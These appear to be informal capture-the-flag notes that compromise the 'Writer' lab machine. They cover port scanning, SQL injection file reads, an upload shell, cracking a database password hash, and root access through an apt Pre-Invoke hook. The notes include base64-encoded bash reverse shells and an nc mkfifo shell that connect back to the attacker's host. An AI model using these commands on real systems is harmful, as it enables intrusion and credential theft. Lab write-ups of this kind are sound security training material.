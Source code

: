 ![image](PWND/Writer.png)

#Masscan:

Discovered open port 80/tcp on 10.10.11.101                                    
Discovered open port 139/tcp on 10.10.11.101                                   
Discovered open port 445/tcp on 10.10.11.101                                   
Discovered open port 22/tcp on 10.10.11.101

#Simple nmap scan:

22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds


#Directory Bruteforcing:


ffuf -u http://10.10.11.101/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 1062 -c
	
	administrative          [Status: 200, Size: 1443, Words: 185, Lines: 35]

/var/www/writer.htb/writer/__init__.py

/etc/apache2/sites-enabled/000-default.conf

Testing Sqlmap
sqlmap -r res.txt --file-read=/etc/apache2/sites-enabled/000-default.conf

we get an admin panel: 
lets try injections sql.

02_Spawning_TTY_Shell/////Rev_Shell
use the jpg shell and boom! we have a shell! change <ip> and <port>



/var/www/writer2_project/writerv2/settings.py

DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'OPTIONS': {
            'read_default_file': '/etc/mysql/my.cnf',

www-data@writer:/var/www/writer2_project/writerv2$ cat /etc/mysql/my.cnf

[client]
database = dev
user = djangouser
password = DjangoSuperPassword
default-character-set = utf8

First Upgrade Shell# 
python3 -c 'import pty;pty.spawn("/bin/bash")'

#connect to DB
mysql -u djangouser -P 3306 -p

select * from auth_user

pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=  | kyle   

hashcat -a0 -m 10000 kyle_hash  /usr/share/wordlists/rockyou.txt 

password:marcoantonio

kyle@writer:/home/john$ id 
uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)

find / -group filter -type f 2>/dev/null
/etc/postfix/disclaimer

lets test smb
netstat -ant : port 25 smb
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN 

lets use NATBypass Found in /opt DID NOT WORK*


copy this rev shell. for #.sh

echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIxNi8xMzMzNyAwPiYxJwo= |base64 -d| bash

imiditly after use port25_sendMailLocal.py found in ~/Desktop/scripts to catch a rev shell on port 13337

once we have a shell go to /home/john and get his .ssh 
cp it over chmod 600 and now you can ssh -i john_id john@writer.htb

after checking the groups i noticed management

john@writer:~$ find / -group management  2>/dev/null
/etc/apt/apt.conf.d

looking at gtfo bins 

https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/

found an article to get root access with atp 3 ways apperatly. 

echo 'apt::Update::Pre-Invoke {“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc KALI_IP 1234 >/tmp/f”};’ > pwn


echo 'apt::Update::Pre-Invoke {"echo <bash-cShell>| base64 -d | bash"};'> pwn

echo 'apt::Update::Pre-Invoke {"echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjE2LzEzMzM3IDA+JjEiCg== | base64 -d | bash"};'> test

bob@kali:~/Desktop/Ethical_Hacking/writer$ nc -nlvp 13337
listening on [any] 13337 ...
connect to [10.10.14.216] from (UNKNOWN) [10.10.11.101] 38440
bash: cannot set terminal process group (48065): Inappropriate ioctl for device
bash: no job control in this shell
root@writer:/tmp# 


boom!!!!
	
	
![image](https://user-images.githubusercontent.com/129129988/228216947-7708b7e9-c905-49cc-a6e4-20c29438a654.png)
